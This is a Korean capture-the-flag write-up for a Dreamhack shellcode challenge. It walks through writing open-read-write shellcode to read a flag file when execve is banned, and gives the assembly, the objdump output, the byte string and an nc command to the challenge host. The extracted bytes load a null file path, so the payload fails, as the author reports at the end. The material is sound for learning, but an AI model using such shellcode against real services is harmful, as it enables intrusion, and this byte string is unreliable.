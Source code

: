 # 문제
입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.

main 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 파일의 위치와 이름은 /home/shell_basic/flag_name_is_loooooong입니다.
감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!

플래그 형식은 DH{...} 입니다. DH{와 }도 모두 포함하여 인증해야 합니다.


# 주어진 파일에서 main 함수를 확인
```
void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);    // 쉘코드를 저장하고 실행하는 공간
  void (*sc)();
  
  init();
  
  banned_execve();       // execve쉘코드 차단

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

  1) 이 코드는 문제 풀이에 직접적으로 사용되는 코드가 아니라, 문제 풀이의 환경과 제약 사항을 이해하는 데 도움을 주는 코드이다.
    
  2) 우리가 알 수 있는 정보
```
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
```
- 메모리 할당 정보
   > mmap()을 통해 읽기, 쓰기, 실행 권한이 모두 부여된 메모리 페이지가 할당된다.
   > **우리가 쉘코드를 이용해 문제를 풀 수 있는 환경이 보장된다는 말이다!**

 - 크기 제한
   > 할당된 메모리 크기는 0x1000 이다.
   > **쉘코드의 크기는 4096바이트 이하로 작성해야 한다.**

```
banned_execve();
```
- execve 쉘코드 사용이 금지된다.
  > **orw쉘코드를 사용해 파일을 읽어야 한다.**

```
read(0, shellcode, 0x1000);
sc = (void *)shellcode;
sc();
```
- 프로그램은 표준 입력을 통해 쉘코드를 입력받아 할당된 메모리에 저장한다는 의미. 그래서 **우리는 직접 작성한 쉘코드를 표준 입력으로 제공하면 된다.**
  > 어떻게 알 수 있는가?) read() 시스템 콜의 첫 번쨰 인자로 들어간 0이 표준 입력을 나타낸다.


# 어셈블리어로 /home/shell_basic/flag_name_is_loooooong 파일을 여는 orw셸코드를 어셈블리로 작성
```
section .data
    filepath db "/home/shell_basic/flag_name_is_loooooong", 0

section .text
global _start

_start:
    ; open("/home/shell_basic/flag_name_is_loooooong", O_RDONLY)
    xor rax, rax                  ; rax = 0
    mov rdi, filepath             ; rdi = 주소 (파일 경로)
    xor rsi, rsi                  ; rsi = 0 (O_RDONLY)
    mov rax, 2                    ; rax = 시스템 콜 번호 2 (open)
    syscall

    ; read(fd, buffer, 0x40)
    mov rdi, rax                  ; rdi = fd (파일 디스크립터)
    mov rsi, rsp                  ; rsi = 스택 (버퍼)
    mov rdx, 0x40                 ; rdx = 64바이트 읽기
    xor rax, rax                  ; rax = 시스템 콜 번호 0 (read)
    syscall

    ; write(1, buffer, 0x40)
    mov rdi, 1                    ; rdi = 1 (stdout)
    mov rax, 1                    ; rax = 시스템 콜 번호 1 (write)
    syscall

    ; exit(0)
    xor rdi, rdi                  ; rdi = 0 (exit 코드)
    mov rax, 60                   ; rax = 시스템 콜 번호 60 (exit)
    syscall
```

# 이 코드를 VS code로 sol.s 파일로 만든다.

# 우분투를 실행하여 nasm 설치 후, 다음과 같은 명령어로 오브젝트 파일을 만든다.
```
nasm -f elf64 -o sol.o sol.s 
```

# objdump -d sol.o 명령어를 입력하면 다음과 같이 나옴
```
sol.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   48 31 c0                xor    %rax,%rax
   3:   48 bf 00 00 00 00 00    movabs $0x0,%rdi
   a:   00 00 00
   d:   48 31 f6                xor    %rsi,%rsi
  10:   b8 02 00 00 00          mov    $0x2,%eax
  15:   0f 05                   syscall
  17:   48 89 c7                mov    %rax,%rdi
  1a:   48 89 e6                mov    %rsp,%rsi
  1d:   ba 40 00 00 00          mov    $0x40,%edx
  22:   48 31 c0                xor    %rax,%rax
  25:   0f 05                   syscall
  27:   bf 01 00 00 00          mov    $0x1,%edi
  2c:   b8 01 00 00 00          mov    $0x1,%eax
  31:   0f 05                   syscall
  33:   48 31 ff                xor    %rdi,%rdi
  36:   b8 3c 00 00 00          mov    $0x3c,%eax
  3b:   0f 05                   syscall
```

# 여기서 바이트 코드로 변환하면 다음과 같다.
```
\x48\x31\xc0\x48\xbf\x00\x00\x00\x00\x00\x00\x00\x00\x48\x31\xf6\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\xba\x40\x00\x00\x00\x48\x31\xc0\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05
```

# 이제 드림핵 주소를 연다.
```
nc host3.dreamhack.games 10396
```

# 만든 바이트 코드를 입력한다.
  - 이러면 플래그가 나와야 하는데 아무 변화도 없다...
